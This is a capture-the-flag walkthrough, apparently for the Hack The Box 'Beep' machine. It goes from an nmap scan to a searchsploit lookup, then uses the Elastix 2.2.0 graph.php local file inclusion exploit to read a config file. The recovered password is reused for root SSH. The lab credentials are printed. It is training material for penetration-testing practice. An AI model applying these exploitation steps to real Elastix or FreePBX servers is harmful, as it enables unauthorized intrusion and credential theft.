

USER & ROOT FLAG
-----

1. Scan with nmap `nmap -T4 --min-rate 5000 -sV -A -o beep 10.10.10.7`
2. Find a lot of open ports, but first try to access to the web page
3. See that we can't access in the 80 port, but we can in the 443 port
4. Port 443 uses a TLS version 1.0, so we need to change the configuration in firefox
5. Go into `about:config` and set `security.tls.version.min` to `1`
6. Enter the page
7. Run discovery
8. Find /admin page and FreePBX 2.8.1.4
9. In /recordings is FreePBX 2.5
10. Run searchsploit for elastix
11. Use the exploit `Elastix 2.2.0 - 'graph.php' Local File Inclusion`
12. Read the code and obtain the route that contains the configuration file
13. Obtatin the password
14. Try to access via SSH
15. Find this (https://unix.stackexchange.com/questions/402746/ssh-unable-to-negotiate-no-matching-key-exchange-method-found)
16. Try to access with `ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@<IP>
17. Use the password that worked in the web page
18. Obtain the user flag
19. Obtain the root flag

## Info

In firefox:
I needed to go to `about:config` and set `security.tls.version.max` to `1` to get the page to load.

Then we can retrieve the TLS version



```bash
searchsploit elastix
```

```
Elastix - 'page' Cross-Site Scripting                                                                                                             | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities                                                                                           | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities                                                                                     | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion                                                                                                  | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                                                                                                                 | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                                                                                                                | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                                                                                            | php/webapps/18650.py
```

```bash
searchsploit -x php/webapps/37637.sh >> 37637.pl
perl 37637.pl
```

## Conclusion

Elastix 2.2.0 - 'graph.php' Local File Inclusion                                                                                                  | php/webapps/37637.pl

Webpage:

Username: `admin`
Password: `jEhdIekWmdjE`

SSH:

root@<IP>
Password: `jEhdIekWmdjE`

## Links

- https://www.3cx.com/community/threads/default-passwords-not-password.90259/
- https://www.foxcloud.net/kb/applications-and-solutions/virtual-pbx/how-to-change-the-default-password-to-elastix.php
- https://stackoverflow.com/questions/60447488/sqlmap-cant-establish-ssl-connection-need-solution
- https://unix.stackexchange.com/questions/402746/ssh-unable-to-negotiate-no-matching-key-exchange-method-found